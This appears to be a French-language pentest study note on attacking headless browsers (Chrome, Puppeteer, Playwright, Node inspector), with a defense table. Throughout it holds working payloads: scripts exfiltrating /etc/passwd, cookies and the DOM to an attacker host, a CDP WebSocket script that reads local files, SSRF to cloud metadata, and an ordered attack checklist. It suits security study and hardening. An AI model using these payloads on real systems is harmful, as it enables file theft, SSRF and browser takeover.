

# 🖥️ Headless Browser — attaques

> [!info] **En 1 phrase**
> Un headless browser = un navigateur (Chrome, Firefox, Edge) **sans interface graphique**, pilotable par
> l'app pour du **rendu serveur, des PDF/screenshots, du scraping ou des bots**.
> Si on contrôle une **URL rendue** ou qu'on accède au **port de debug CDP**, ça donne souvent
> **lecture de fichiers** (`file://`), **SSRF**, puis parfois **RCE**.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Headless%20Browsers/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Un headless est un **vrai navigateur complet** : il interprète HTML/CSS/JS, navigue, stocke cookies,
> suit les redirections. Mais il tourne souvent **en root, sans sandbox**, avec des **flags d'autorisation
> dangereux** et/ou un **port de debug ouvert** → chaque fonctionnalité "rend une page" devient une surface d'attaque.

### Où le trouve-t-on ?

- **Pré-rendering / SSR** : SPA (React/Vue) rendues côté serveur pour le SEO → URLs contrôlées par l'attaquant.
- **Génération de PDF** : factures, tickets, rapports → `--print-to-pdf`, bibliothèques `pdf`/`wkhtmltopdf`.
- **Screenshots de pages** : préviews d'URL, systèmes de "anti-phishing", watchers.
- **Scraping / bots** : robots de scraping, assistants, tests automatisés (E2E).
- **Admin bots de CTF/bug bounty** : un "admin bot" visite nos URLs pour valider une XSS (→ mêmes chemins).

### Les moteurs

| Moteur | Détail |
|---|---|
| **Chromium / Google Chrome** | Le plus répandu. Flags CLI riches (`--headless=new`, `--print-to-pdf`, `--remote-debugging-port`). |
| **Puppeteer** | Lib Node.js pilotant Chrome via CDP (screenshot, PDF, navigation). Très commun. |
| **Playwright** | Lib (Node/Python) multi-navigateurs (Chromium, Firefox, WebKit). Le standard moderne. |
| **Selenium** | Pilote des navigateurs (headless ou non), plus utilisé pour les tests que le PDF/rendu. |
| **Firefox / Edge** | Firefox : `--screenshot`. Edge = Chromium → mêmes flags que Chrome. |
| **Node.js `--inspect`** | Pas un navigateur mais **même concept de debug port** → RCE facile (9229). |

---

## 🚀 Commandes headless

```bash
# Chrome / Chromium
google-chrome --headless=new --print-to-pdf https://target.com
google-chrome --headless=new --screenshot=/tmp/screen.png --window-size=1280,720 https://target.com
google-chrome --headless --dump-dom https://target.com            # DOM final après JS

# Firefox
firefox --headless --screenshot https://target.com

# Edge (Windows)
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
```

---

## 🕳️ Lecture de fichiers locaux (file://)

### Flags dangereux

> [!warning] ⚠️ Si la cible est lancée avec `--allow-file-access` (ou `--allow-file-access-from-files`),
> une **page distante peut lire des fichiers locaux** via `fetch("file://...")`.

```bash
# Configuration vulnérable typique (Docker/CI "pour que ça marche")
google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run \
  --disable-web-security --allow-file-access-from-files --allow-file-access \
  --allow-cross-origin-auth-prompt --user-data-dir
```

```js
// LFI : un HTML exposé par l'attaquant (ou une XSS) capture /etc/passwd
<script>
  async function getFlag(){
    const res = await fetch("file:///etc/passwd");
    const data = await res.text();
    fetch("https://ATTACKER.DOMAIN/", { method: "POST", body: data });
  }
  getFlag();
</script>
```

### Exploitation via PDF rendering (`--print-to-pdf`)

> Si l'app génère un **PDF d'une URL qu'on contrôle**, le contenu est rendu dans le PDF → on force la lecture locale.

```html
<!-- Redirection JS → le PDF contient le fichier local -->
<html><body>
  <script>window.location = "/etc/passwd"</script>
</body></html>
```

```html
<!-- Iframe → contenu du fichier rendu dans le PDF -->
<html><body>
  <iframe src="/etc/passwd" height="640" width="640"></iframe>
</body></html>
```

---

## 🔌 Remote Debugging Port (CDP)

Le **Chrome DevTools Protocol** est exposé sur un TCP port (défaut **9222**, modifiable avec
`--remote-debugging-port=`). Quiconque y accède **contrôle totalement le navigateur** : navigation
(`file://` inclus), cookies, onglets, exécution de JS.

```bash
# Ouvrir le port de debug
google-chrome --headless=new --remote-debugging-port=9222 --user-data-dir=/tmp/profil ./index.html

# Node.js : --inspect = même principe (port 9229 par défaut) → RCE
node --inspect app.js
node --inspect=4444 app.js
node --inspect=0.0.0.0:4444 app.js
```

### Énumération du debug port

```bash
curl http://127.0.0.1:9222/json/version      # version, UA, webSocketDebuggerUrl (UUID !)
curl http://127.0.0.1:9222/json/list         # cibles = onglets ouverts
curl http://127.0.0.1:9222/json/new?https://ATTACKER/   # créer un onglet (scan de ports)
```

```json
{
  "Browser": "Chrome/136.0.7103.113",
  "Protocol-Version": "1.3",
  "User-Agent": "Mozilla/5.0 ... HeadlessChrome/136.0.0.0 ...",
  "V8-Version": "13.6.233.10",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/browser/d815e18d-57e6-4274-a307-98649a9e6b87"
}
```

### Exploitation

- Connexion GUI : `chrome://inspect/#devices` → voir/interagir avec les onglets.
- **Tuer le process** puis le relancer avec `--restore-last-session` → accès aux onglets/sessions de la victime.
- Données stockées : `chrome://settings` (users, passwords, tokens).
- **Leak de l'UUID** : lire `http://127.0.0.1:<port>/json/version` dans une iframe → récupérer le `webSocketDebuggerUrl`.
- **LFI** : via CDP `Page.navigate` vers `file://` + `Runtime.evaluate` (scripts dédiés : `chrome_remote_debug_lfi.py`).
- **Node inspector** (`--inspect`) : onglets CDP équivalents → évaluation JS = **exécution de code** sur le serveur.

> [!note] 📌 Chrome ≥ 136 (mars 2025) : `--remote-debugging-port` / `--remote-debugging-pipe` sont **ignorés** sur le
> data-dir par défaut de Chrome → il faut un `--user-data-dir` non standard. Vérifier que le data-dir n'est pas celui par défaut.

---

## 🕸️ Attaques réseau depuis le headless

### Port scanning (timing)

- Insérer dynamiquement `` et mesurer le temps jusqu'à `onerror`.
- Répéter ≥ 10× sur un port fermé → temps moyen de référence.
- Tester un port random 10× ; si `time(random) > time(closed) × 1.3` → **port ouvert**.
- Plus simple si le debug port est accessible : boucle `http://localhost:<port>/json/new?http://ATTACKER/?port=<port>`.

### DNS Rebinding

> Outil : [nccgroup/singularity](https://github.com/nccgroup/singularity) — framework de DNS rebinding.

1. Chrome fait 2 requêtes DNS : `A` (IP interne) et `AAAA` (IP internet contrôlée).
2. `AAAA` = valid IP ; `A` = IP interne de la cible.
3. Chrome se connecte d'abord en IPv6 (evil.net) ; on ferme l'écouteur juste après la réponse.
4. On ouvre une iframe vers evil.net ; le fallback IPv4 retombe sur l'IP interne.
5. Depuis la top window on injecte un script dans l'iframe → **exfiltration du contenu interne**.

---

## 💥 RCE via le headless

### `--no-sandbox` = la porte

Le flag **désactive le sandbox Chromium** (isolation des process renderer). Toute exécution de code
dans le renderer (XSS + CVE V8/Blink, ou parsing malveillant) devient un **RCE avec les droits du
process navigateur** (souvent root en Docker/CI).

```js
// Pattern vulnérable extrêmement répandu dans les apps "admin bot" / screenshot
const browser = await puppeteer.launch({
    args: ['--no-sandbox']          // ⚠️ sandbox désactivée
});
```

### La chaîne complète

1. Identifier le moteur et la version (User-Agent `HeadlessChrome/...`, `chrome://version`).
2. Trouver une **CVE** ciblant un composant : V8, Blink, WebKit, WASM.
3. La délivrer via la page rendue (XSS, URL malveillante, `<iframe>`, WebAssembly).
4. Sans sandbox : l'exploit du renderer **s'échappe directement** → shell.
5. Même sans `--no-sandbox`, des n-days V8 s'échappent du renderer → on vise le processus navigateur.

### Exemples de CVE

- Chrome **CVE-2024-9122** — WASM type confusion (imported tag signature subtyping).
- Chrome **CVE-2025-5419** — Out-of-bounds read/write dans V8.
- Firefox **CVE-2024-9680** — Use-after-free.

---

## 🤖 Exploitation d'un endpoint qui rend une page

> Contexte : l'app prend une **URL en entrée** et la rend avec le headless (PDF, screenshot, préview).
> On contrôle l'URL et/ou son contenu → on exploite les schémas supportés par le navigateur.

### Payloads d'URL

| Payload | Effet | Condition |
|---|---|---|
| `file:///etc/passwd` | Lecture/rendu d'un fichier local | chemin autorisé par les flags |
| `file:///etc/passwd#@https://site-legit` | Bypass de validation d'URL naïve (`file://` caché) | parser vérifiant `http://` naïvement |
| `javascript:fetch('https://ATTACKER/?d='+document.cookie)` | Exécution JS dans le contexte du headless | schéma `javascript:` non filtré |
| `data:text/html,<script>...</script>` | Page 100% contrôlée (exfil tout) | schéma `data:` non filtré |
| `chrome://settings` / `chrome://version` | Exfiltrer settings, versions, flags | navigateur Chrome |
| `http://127.0.0.1:<port>/json/version` | Leak de l'UUID du debug port → CDP | debug port ouvert |
| `http://169.254.169.254/latest/meta-data/` | SSRF → metadata cloud | restrictions réseau du navigateur |

### Exfiltration classique

```html
<script>
  // Dans une page rendue par le headless
  const x = new Image();
  x.src = "https://ATTACKER/?d=" + btoa(JSON.stringify({
    href: location.href,
    cookie: document.cookie,
    dom: document.documentElement.outerHTML
  }));
</script>
```

### SSRF via les options de rendu

```bash
# --dump-dom / --screenshot fetch la cible depuis le headless = SSRF
google-chrome --headless --dump-dom http://127.0.0.1:PORT/json/version
google-chrome --headless --screenshot /tmp/out.png http://10.0.0.1/admin
```

> [!warning] ⚠️ Limitations à connaître : Chrome bloque par défaut les **ports connus**
> (SMTP, SOCKS...) et l'accès au **réseau local non-localhost** (Private Network Access).
> `127.0.0.1` reste accessible → c'est la cible numéro 1.

---

## 📦 PoC / scripts

### Puppeteer (Node.js) — usage légitime & exploitation

```js
// Usage légitime : screenshot + PDF
const puppeteer = require("puppeteer");
(async () => {
  const browser = await puppeteer.launch({ args: ["--no-sandbox"] }); // ⚠️ flag RCE
  const page = await browser.newPage();
  await page.goto("https://target/", { waitUntil: "networkidle0" });
  await page.screenshot({ path: "screen.png" });
  await page.pdf({ path: "report.pdf" });      // = --print-to-pdf
  await browser.close();
})();
```

### Playwright (Python) — script équivalent

```py
from playwright.sync_api import sync_playwright

with sync_playwright() as p:
    browser = p.chromium.launch(args=["--no-sandbox"])   # ⚠️
    page = browser.new_page()
    page.goto("http://target/")
    page.screenshot(path="screen.png")
    page.pdf(path="report.pdf")
    browser.close()
```

### Exploitation CDP via WebSocket (Python)

```py
import json, asyncio, websockets

async def exploit():
    # 1) Récupérer la liste des cibles (onglets) du debug port
    async with websockets.connect(
        "ws://127.0.0.1:9222/devtools/browser/<UUID>",
        origin="http://127.0.0.1:9222"          # requis depuis Chrome déc. 2022
    ) as ws:
        await ws.send(json.dumps({"id": 1, "method": "Target.getTargets"}))
        targets = json.loads(await ws.recv())
        for t in targets.get("result", {}).get("targetInfos", []):
            print(t["type"], t["url"])

    # 2) Sur une cible : naviguer vers file:// puis lire le DOM
    async with websockets.connect(
        "ws://127.0.0.1:9222/devtools/page/<PAGE_ID>",
        origin="http://127.0.0.1:9222"
    ) as ws:
        await ws.send(json.dumps({
            "id": 2, "method": "Page.navigate",
            "params": {"url": "file:///etc/passwd"}
        }))
        await ws.recv()
        await ws.send(json.dumps({
            "id": 3, "method": "Runtime.evaluate",
            "params": {"expression": "document.documentElement.outerHTML"}
        }))
        res = json.loads(await ws.recv())
        print(res["result"]["result"]["value"])   # contenu du fichier !

asyncio.run(exploit())
```

> [!tip] 💡 Si la connexion WebSocket échoue avec un `origin` invalide : Chrome ≥ déc. 2022 exige
> `--remote-allow-origins="*"` côté cible, OU un client qui envoie un **header origin vide** (fix de `ripWCMN.py`).

---

## 🧰 Outils

| Outil | Usage |
|---|---|
| `chromium` / `google-chrome` | Les flags CLI (`--headless`, `--dump-dom`, `--screenshot`, `--print-to-pdf`, `--remote-debugging-port`) |
| **WhiteChocolateMacademiaNut** (slyd0g) | Interagit avec le debug port Chromium : onglets, extensions, cookies |
| **ripWCMN.py** | Alternative Python à WCMN (fixe la WebSocket avec origin vide) |
| **chrome_remote_debug_lfi.py** (pich4ya) | LFI via le port de debug |
| **singularity** (nccgroup) | Framework de DNS rebinding |
| **Puppeteer / Playwright / pyppeteer** | Piloter un headless (screenshot, PDF, extraction, exploitation CDP) |
| `chrome://inspect/#devices` | Interface GUI pour se connecter à un debug port |

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Jamais `--no-sandbox`** | Désactive l'isolation → toute XSS/CVE dans le rendu = RCE directe. Aussi `--disable-web-security`, `--disable-gpu` en prod = signaux d'alerte |
| **Pas de `--allow-file-access-from-files`** | Sinon un site distant peut `fetch("file:///...")`. Ne pas autoriser `file://` dans les URLs de rendu |
| **Debug port limité** | Bind `127.0.0.1` uniquement, port aléatoire, réseau filtré. Même exposé, laisser le firewall le fermer |
| **`--remote-allow-origins` restrictif** | Sans `"*"`, les WebSocket CDP cross-origin sont bloquées (Chrome ≥ déc. 2022) |
| **Pas de Node `--inspect` exposé** | `--inspect` = debug complet → exécution de code. Ne jamais le binder en `0.0.0.0` |
| **Validation des URLs de rendu** | Allowlist de schémas (`http`, `https` uniquement), pas de `file:`/`javascript:`/`data:`/`chrome:` — parser robuste (pas de `#@` bypass) |
| **Sandbox OS** | Navigateur dans un conteneur/VM dédié, FS read-only, compte non-root, réseau egress filtré |
| **Surveillance** | Logs des lancements Chrome (flags suspects), ports 9222/9229, connexions WebSocket vers CDP, URLs rendues (`file://`) |

---

## ⚠️ Tips & Pièges

> [!warning] ⚠️ **`--no-sandbox` = porte ouverte**
> Le flag désactive le sandbox du renderer : n'importe quelle exécution de code dans la page
> (XSS + CVE V8/Blink, WASM, parsing) devient un **RCE complet** avec les droits du process navigateur
> (souvent root en Docker/CI). On le voit partout "pour que le headless marche en CI" → **le premier truc à checker**.

> [!warning] ⚠️ **Port de debug exposé = contrôle total**
> Un `--remote-debugging-port` ouvert (9222) ou un `node --inspect` (9229) donne la main sur **tout**
> le navigateur : onglets, cookies, sessions, navigation `file://`, exécution JS, `--restore-last-session`.
> Voir un 9222/9229 ouvert = s'y connecter immédiatement. Même principe avec Node/Electron/CEF.

> [!tip] 💡 **`file://` = lecture locale**
> Par défaut `file://` est interdit depuis une page http — mais les flags d'autorisation
> (`--allow-file-access`, `--allow-file-access-from-files`) et les endpoints `--print-to-pdf`
> (`javascript:window.location="/etc/passwd"`, `<iframe src="/etc/passwd">`) le permettent.
> Tester aussi `file:///etc/passwd`, `file:///C:/Windows/win.ini` (Windows), `file:///proc/self/environ`.

> [!tip] 💡 **Contraintes réseau du navigateur**
> Chrome bloque les ports "connus" (SMTP, SOCKS...) et le réseau privé non-localhost (PNA). Mais
> `127.0.0.1` reste accessible → port scanning timing + DNS rebinding (singularity) sont les voies
> pour atteindre l'interne. Penser aux metadata cloud (`169.254.169.254`) quand le headless est dans un cloud.

> [!warning] ⚠️ **Chrome ≥ 136 (mars 2025)**
> `--remote-debugging-port` / `--remote-debugging-pipe` sont **ignorés** si on vise le data-dir par défaut
> de Chrome → le debug nécessite un `--user-data-dir` non standard. Vérifier quelle version + quels flags.

> [!tip] 💡 **Ordre logique d'attaque**
> 1. Identifier le headless (User-Agent `HeadlessChrome/`, `chrome://version`) → 2. tester les schémas
> `file://`, `javascript:`, `data:`, `chrome://` sur l'URL rendue → 3. scanner les ports locaux (9222/9229,
> métadonnées cloud) → 4. CDP : cookies, navigation, LFI → 5. CVE V8/Blink + `--no-sandbox` = RCE.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[SSRF|🌐 SSRF]]
- [[Injection de commandes|🐚 Injection de commandes]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Headless Browsers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Headless%20Browsers/README.md)
